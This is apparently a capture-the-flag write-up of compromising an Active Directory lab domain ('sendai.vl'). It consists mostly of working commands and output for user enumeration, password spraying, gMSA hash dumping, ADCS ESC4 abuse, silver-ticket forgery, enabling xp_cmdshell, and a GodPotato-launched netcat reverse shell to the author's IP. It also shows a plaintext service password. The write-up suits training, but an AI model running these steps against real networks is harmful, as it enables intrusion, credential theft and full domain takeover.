




# Before Starting
```console
Me > 10.8.2.163
Target > 10.10.96.234
```
## Enumeration

```bash
nmap -sS -sC -T4 -vvv -p- 10.10.96.234 -oN scan.txt

PORT     STATE SERVICE
53/tcp   open  domain
80/tcp   open  http
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
443/tcp  open  https
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
3389/tcp open  ms-wbt-server
```
We can try guest session on the smb for list users :

```bash
cme smb 10.10.96.234 -u 'toto' -p ''                       SMB         10.10.96.234    445

DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:False)
SMB         10.10.96.234    445    DC               [+] sendai.vl\toto:

cme smb 10.10.96.234 -u 'toto' -p '' --users

SMB         10.10.96.234    445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:False)
SMB         10.10.96.234    445    DC               [+] sendai.vl\toto:
SMB         10.10.96.234    445    DC               [*] Trying to dump local users with SAMRPC protocol
```
So guest session is activate but we can't list users, maybe we can brute force RID :

```bash
cme smb 10.10.96.234 -u 'toto' -p '' --rid-brute
SMB         10.10.96.234    445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:False)
SMB         10.10.96.234    445    DC               [+] sendai.vl\toto:
SMB         10.10.96.234    445    DC               498: SENDAI\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.96.234    445    DC               500: SENDAI\Administrator (SidTypeUser)
SMB         10.10.96.234    445    DC               501: SENDAI\Guest (SidTypeUser)
SMB         10.10.96.234    445    DC               502: SENDAI\krbtgt (SidTypeUser)
SMB         10.10.96.234    445    DC               512: SENDAI\Domain Admins (SidTypeGroup)
SMB         10.10.96.234    445    DC               513: SENDAI\Domain Users (SidTypeGroup)
SMB         10.10.96.234    445    DC               514: SENDAI\Domain Guests (SidTypeGroup)
SMB         10.10.96.234    445    DC               515: SENDAI\Domain Computers (SidTypeGroup)
SMB         10.10.96.234    445    DC               516: SENDAI\Domain Controllers (SidTypeGroup)
SMB         10.10.96.234    445    DC               517: SENDAI\Cert Publishers (SidTypeAlias)
SMB         10.10.96.234    445    DC               518: SENDAI\Schema Admins (SidTypeGroup)
SMB         10.10.96.234    445    DC               519: SENDAI\Enterprise Admins (SidTypeGroup)
SMB         10.10.96.234    445    DC               520: SENDAI\Group Policy Creator Owners (SidTypeGroup)
SMB         10.10.96.234    445    DC               521: SENDAI\Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.96.234    445    DC               522: SENDAI\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.10.96.234    445    DC               525: SENDAI\Protected Users (SidTypeGroup)
SMB         10.10.96.234    445    DC               526: SENDAI\Key Admins (SidTypeGroup)
SMB         10.10.96.234    445    DC               527: SENDAI\Enterprise Key Admins (SidTypeGroup)
SMB         10.10.96.234    445    DC               553: SENDAI\RAS and IAS Servers (SidTypeAlias)
SMB         10.10.96.234    445    DC               571: SENDAI\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.10.96.234    445    DC               572: SENDAI\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.10.96.234    445    DC               1000: SENDAI\DC$ (SidTypeUser)
SMB         10.10.96.234    445    DC               1101: SENDAI\DnsAdmins (SidTypeAlias)
SMB         10.10.96.234    445    DC               1102: SENDAI\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.96.234    445    DC               1103: SENDAI\SQLServer2005SQLBrowserUser$DC (SidTypeAlias)
SMB         10.10.96.234    445    DC               1104: SENDAI\sqlsvc (SidTypeUser)
SMB         10.10.96.234    445    DC               1105: SENDAI\websvc (SidTypeUser)
SMB         10.10.96.234    445    DC               1107: SENDAI\staff (SidTypeGroup)
SMB         10.10.96.234    445    DC               1108: SENDAI\Dorothy.Jones (SidTypeUser)
SMB         10.10.96.234    445    DC               1109: SENDAI\Kerry.Robinson (SidTypeUser)
SMB         10.10.96.234    445    DC               1110: SENDAI\Naomi.Gardner (SidTypeUser)
SMB         10.10.96.234    445    DC               1111: SENDAI\Anthony.Smith (SidTypeUser)
SMB         10.10.96.234    445    DC               1112: SENDAI\Susan.Harper (SidTypeUser)
SMB         10.10.96.234    445    DC               1113: SENDAI\Stephen.Simpson (SidTypeUser)
SMB         10.10.96.234    445    DC               1114: SENDAI\Marie.Gallagher (SidTypeUser)
SMB         10.10.96.234    445    DC               1115: SENDAI\Kathleen.Kelly (SidTypeUser)
SMB         10.10.96.234    445    DC               1116: SENDAI\Norman.Baxter (SidTypeUser)
SMB         10.10.96.234    445    DC               1117: SENDAI\Jason.Brady (SidTypeUser)
SMB         10.10.96.234    445    DC               1118: SENDAI\Elliot.Yates (SidTypeUser)
SMB         10.10.96.234    445    DC               1119: SENDAI\Malcolm.Smith (SidTypeUser)
SMB         10.10.96.234    445    DC               1120: SENDAI\Lisa.Williams (SidTypeUser)
SMB         10.10.96.234    445    DC               1121: SENDAI\Ross.Sullivan (SidTypeUser)
SMB         10.10.96.234    445    DC               1122: SENDAI\Clifford.Davey (SidTypeUser)
SMB         10.10.96.234    445    DC               1123: SENDAI\Declan.Jenkins (SidTypeUser)
SMB         10.10.96.234    445    DC               1124: SENDAI\Lawrence.Grant (SidTypeUser)
SMB         10.10.96.234    445    DC               1125: SENDAI\Leslie.Johnson (SidTypeUser)
SMB         10.10.96.234    445    DC               1126: SENDAI\Megan.Edwards (SidTypeUser)
SMB         10.10.96.234    445    DC               1127: SENDAI\Thomas.Powell (SidTypeUser)
SMB         10.10.96.234    445    DC               1128: SENDAI\ca-operators (SidTypeGroup)
SMB         10.10.96.234    445    DC               1129: SENDAI\admsvc (SidTypeGroup)
SMB         10.10.96.234    445    DC               1130: SENDAI\mgtsvc$ (SidTypeUser)
SMB         10.10.96.234    445    DC               1131: SENDAI\support (SidTypeGroup)
```
Now that we have a 'users.txt' we can check with kerbrute :

```bash
kerbrute userenum --dc "10.10.96.234" -d sendai.vl users.txt

2024/07/16 20:03:26 >  [+] VALID USERNAME:       sqlsvc@sendai.vl
2024/07/16 20:03:26 >  [+] VALID USERNAME:       Administrator@sendai.vl
2024/07/16 20:03:26 >  [+] VALID USERNAME:       Guest@sendai.vl
2024/07/16 20:03:26 >  [+] VALID USERNAME:       DC$@sendai.vl
2024/07/16 20:03:26 >  [+] VALID USERNAME:       websvc@sendai.vl
2024/07/16 20:03:26 >  [+] VALID USERNAME:       Dorothy.Jones@sendai.vl
2024/07/16 20:03:26 >  [+] VALID USERNAME:       Naomi.Gardner@sendai.vl
2024/07/16 20:03:26 >  [+] VALID USERNAME:       Kerry.Robinson@sendai.vl
2024/07/16 20:03:26 >  [+] VALID USERNAME:       Anthony.Smith@sendai.vl
2024/07/16 20:03:26 >  [+] VALID USERNAME:       Jason.Brady@sendai.vl
2024/07/16 20:03:26 >  [+] VALID USERNAME:       Kathleen.Kelly@sendai.vl
2024/07/16 20:03:26 >  [+] VALID USERNAME:       Norman.Baxter@sendai.vl
2024/07/16 20:03:26 >  [+] VALID USERNAME:       Stephen.Simpson@sendai.vl
2024/07/16 20:03:26 >  [+] VALID USERNAME:       Marie.Gallagher@sendai.vl
2024/07/16 20:03:26 >  [+] VALID USERNAME:       Susan.Harper@sendai.vl
2024/07/16 20:03:26 >  [+] VALID USERNAME:       Lisa.Williams@sendai.vl
2024/07/16 20:03:26 >  [+] VALID USERNAME:       Malcolm.Smith@sendai.vl
2024/07/16 20:03:26 >  [+] VALID USERNAME:       Elliot.Yates@sendai.vl
2024/07/16 20:03:26 >  [+] VALID USERNAME:       Ross.Sullivan@sendai.vl
2024/07/16 20:03:26 >  [+] VALID USERNAME:       Thomas.Powell@sendai.vl
2024/07/16 20:03:26 >  [+] VALID USERNAME:       Megan.Edwards@sendai.vl
2024/07/16 20:03:26 >  [+] VALID USERNAME:       Lawrence.Grant@sendai.vl
2024/07/16 20:03:26 >  [+] VALID USERNAME:       Leslie.Johnson@sendai.vl
2024/07/16 20:03:26 >  [+] VALID USERNAME:       Clifford.Davey@sendai.vl
2024/07/16 20:03:26 >  [+] VALID USERNAME:       Declan.Jenkins@sendai.vl
2024/07/16 20:03:26 >  [+] VALID USERNAME:       mgtsvc$@sendai.vl
```

As of now we have a list of users but no password and the ability to log in as guest, let's see what guest can read

## The first two users

```bash
cme smb 10.10.96.234 -u 'toto' -p '' --shares | grep -I 'READ'

SMB         10.10.96.234    445    DC               IPC$            READ            Remote IPC
SMB         10.10.96.234    445    DC               sendai          READ            company share
SMB         10.10.96.234    445    DC               Users           READ
```
We can therefore try to connect with smbclient but it will be unsuccessful, we will not find anything interesting

We can on the other hand try to spray null passwords with the list of users that we had :

```bash
cme smb 10.10.96.234 -u users.txt -p '' --continue-on-success

# And we obtain this :
[-] sendai.vl\Elliot.Yates: STATUS_PASSWORD_MUST_CHANGE
[-] sendai.vl\Thomas.Powell: STATUS_PASSWORD_MUST_CHANGE
```

Just google 'STATUS_PASSWORD_MUST_CHANGE' and we find this : [https://exploit-notes.hdks.org/exploit/windows/active-directory/smb-pentesting/#brute-force-credentials](https://exploit-notes.hdks.org/exploit/windows/active-directory/smb-pentesting/#brute-force-credentials)



So let's abuse of this :

```bash
# When the message 'Current SMB password:' appears just type [Enter]
smbpasswd.py sendai.vl/'Thomas.Powell':''@10.10.96.234 -newpass 'Toto01!'
[!] Password is expired, trying to bind with a null session.
[*] Password was changed successfully.
```
Do this for both users :



```bash
# verify
cme smb 10.10.96.234 -u 'Thomas.Powell' -p 'Toto01!'

SMB         10.10.96.234    445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:False)
SMB         10.10.96.234    445    DC               [+] sendai.vl\Thomas.Powell:Toto01!
```
Now do a bloodhound

```bash
cme ldap 10.10.96.234 -u 'Thomas.Powell'  -p 'Toto01!' -k --bloodhound -ns 10.10.96.234 -c all
```


So Elliot.Yates is in SUPPORT@SENDAI.VL & SUPPORT@SENDAI.VL have GENERICALL on ADMSVC & ADMSVC can read GMSA password, so let's follow this path :

## Getting mgtsvc$

```bash
# Add
net rpc group addmem "ADMSVC" "Elliot.Yates" -U "sendai.vl"/"Elliot.Yates"%'Tata01!' -S "dc.sendai.vl"
# Verify
net rpc group members "ADMSVC" -U "sendai.vl"/"Elliot.Yates"%'Tata01!' -S "dc.sendai.vl"
SENDAI\websvc
SENDAI\Norman.Baxter
SENDAI\Elliot.Yates
```
Now read GMSA passwords :

```bash
cme ldap 10.10.96.234 -u 'Elliot.Yates' -p 'Tata01!' --gmsa

SMB         10.10.96.234    445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:False)
LDAP        10.10.96.234    636    DC               [+] sendai.vl\Elliot.Yates:Tata01!
LDAP        10.10.96.234    636    DC               [*] Getting GMSA Passwords
LDAP        10.10.96.234    636    DC               Account: mgtsvc$              NTLM: 52[...]a20
```
Some links here for explanation :
[https://www.thehacker.recipes/a-d/movement/dacl/addmember](https://www.thehacker.recipes/a-d/movement/dacl/addmember)

[https://learn.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/group-managed-service-accounts-overview](https://learn.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/group-managed-service-accounts-overview)

[https://www.netexec.wiki/ldap-protocol/dump-gmsa](https://www.netexec.wiki/ldap-protocol/dump-gmsa)

```bash
# WinRM
evil-winrm -u 'mgtsvc$' -H '52[...]a20' -i 10.10.96.234
```
Now let's enumerate the box with PrivescCheck.ps1

```powershell
. .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended
```
Get the creds of Clifford

## Privesc ESC4

Now let's do some ADCS enumeration

```bash
certipy find -u 'Clifford.Davey'@'dc.sendai.vl' -p 'REDACTED' -dc-ip '10.10.96.234' -vulnerable -stdout -debug

CA Name : sendai-DC-CA
Template Name : SendaiComputer
[!] Vulnerabilities
ESC4 : 'SENDAI.VL\\ca-operators' has dangerous permissions
```


As you can see, Clifford is in ca-operators, so let's abuse :

[https://www.thehacker.recipes/a-d/movement/ad-cs/access-controls#certificate-templates-esc4](https://www.thehacker.recipes/a-d/movement/ad-cs/access-controls#certificate-templates-esc4)

```bash
certipy template -u 'Clifford.Davey'@'sendai.vl' -p 'REDACTED' -dc-ip '10.10.96.234' -template SendaiComputer -save-old

[*] Saved old configuration for 'SendaiComputer' to 'SendaiComputer.json'
[*] Updating certificate template 'SendaiComputer'
[*] Successfully updated 'SendaiComputer'
```
```bash
certipy req -u 'clifford.davey' -p 'REDACTED' -ca 'sendai-DC-CA' -dc-ip 10.10.96.234 -target dc.sendai.vl -template 'SendaiComputer' -upn administrator -debug

[+] Trying to resolve 'dc.sendai.vl' at '10.10.96.234'
[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.10.96.234[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.10.96.234[\pipe\cert]
[*] Successfully requested certificate
[*] Request ID is 5
[*] Got certificate with UPN 'administrator'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```
```bash
certipy auth -pfx administrator.pfx -domain sendai.vl

[*] Using principal: administrator@sendai.vl
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sendai.vl': aad3b435b51404eeaad3b435b51404ee:cf[...]7a
```
Then we can evil-winrm

```bash
evil-winrm -u 'Administrator' -H 'cf[...]7a' -i 10.10.96.234
```
## Other way to privesc, Silver Ticket + SeImpersonatePrivilege

```bash
cme smb 10.10.96.234 -u 'Elliot.Yates' -p 'Tata01!' --shares

[+] config READ,WRITE
```
So as you can see when we had our first 2 users, it was possible to read in the smb 'config', this directory contains a file '.sqlconfig' in which we find this :

```console
Server=dc.sendai.vl,1433;Database=prod;User Id=sqlsvc;Password=SurenessBlob85;
```
So we can use this to make a silver ticket

[https://vulndev.io/2022/01/08/kerberos-silver-tickets/](https://vulndev.io/2022/01/08/kerberos-silver-tickets/)

First let's make a socks with chisel :

```bash
# local machine
chisel server -p 9999 --reverse
# target machine
./chisel.exe client 10.8.2.163:9999 R:socks
```
Now let's use ticketer to create a ticket

```bash
ticketer.py -spn MSSQL/dc.sendai.vl -domain-sid S-1-5-21-3085872742-570972823-736764132 -nthash '58655C0B90B2492F84FB46FA78C2D96A' -dc-ip dc.sendai.vl Administrator -domain sendai
.vl

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for sendai.vl/Administrator
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Saving ticket in Administrator.ccache
```
Now export the ticket and use it :

```bash
export KRB5CCNAME='Administrator.ccache'

proxychains -q mssqlclient.py dc.sendai.vl -k

SQL (SENDAI\Administrator  dbo@master)> EXEC master..xp_cmdshell 'whoami'
[-] ERROR(DC\SQLEXPRESS): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.
```
So we need to enable 'xp_cmdshell' to have a reverse shell as sqlsvc, given that these accounts often have 'SeImpersonatePrivileges' activated, we can then use Potato to be NT/AUTHORITY

```sql
> EXEC sp_configure 'Show Advanced Options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;

> SQL (SENDAI\Administrator  dbo@master)> xp_cmdshell "whoami"
-------------
sendai\sqlsvc

NULL

> xp_cmdshell "powershell -e [JAB..AKQA=]"
```
Now let's check the privileges

```powershell
PS C:\> whoami /priv

SeImpersonatePrivilege        Impersonate a client after authentication Enabled
```
So we can try a Potato like GodPotato, upload him and nc on the target machine :

```powershell
PS C:\temp> ./GodPotato-NET4.exe -cmd "cmd /c C:\temp\nc.exe 10.8.2.163 1234 -e powershell"
```


Some links here : [https://medium.com/@iamkumarraj/godpotato-empowering-windows-privilege-escalation-techniques-400b88403a71](https://medium.com/@iamkumarraj/godpotato-empowering-windows-privilege-escalation-techniques-400b88403a71)

[https://jlajara.gitlab.io/Potatoes_Windows_Privesc](https://jlajara.gitlab.io/Potatoes_Windows_Privesc)

If you have any questions you can dm me on discord : 'ethicxz.' or on [instagram](https://www.instagram.com/eliott.la/)
